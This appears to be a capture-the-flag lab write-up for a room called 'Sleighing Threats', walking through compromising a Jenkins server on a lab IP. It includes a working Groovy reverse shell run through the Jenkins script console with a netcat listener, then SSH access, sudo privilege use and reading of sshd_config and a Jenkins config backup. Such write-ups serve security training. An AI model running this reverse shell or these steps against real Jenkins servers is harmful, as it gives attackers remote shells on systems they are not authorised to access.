 # Sleighing Threats, One Layer at a Time

## Solution
- Hit "Start Machine" and open the Split Screen View or connect through RDP.
- What is the default port for Jenkins?
```bash
sudo nmap -T4 10.10.99.188 
```

![Alt text](image.png)

- What is the password of the user tracy?
Groovy script can be run in Jenkins under the link http://10.10.99.188:8080/manage/script. A Groovy reverse shell can be run.
Start the listener on the attacker machine.
```bash
nc -lvnp 9999
```
Run the Groovy script in the console.
```bash
String host="attacking machine IP here";
int port=9999;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![Alt text](image-1.png)

Browse the /opt/scripts folder to find interesting files.

![Alt text](image-2.png)

- What's the root flag?
Now we can ssh as tracy user into the target machine.
```bash
ssh tracy@IP
```
Notice tracy user can run all the commands as sudo!
It can be verified running:
```bash
sudo -l
```

![Alt text](image-3.png)

Run the following command to get the root flag:
```bash
sudo cat /root/flag.txt
```

![Alt text](image-4.png)

- What is the error message when you login as tracy again and try sudo -l after its removal from the sudoers group?
Remove tracy user from the sudoers.
```bash
sudo deluser tracy sudo
```
SSH again into the server as tracy and run:
```bash
sudo -l
```

![Alt text](image-5.png)

- What's the SSH flag?
```bash
cat /etc/ssh/sshd_config
```

![Alt text](image-6.png)

- What's the Jenkins flag?
```bash
cat /var/lib/jenkins/config.xml.bak
```

![Alt text](image-7.png)
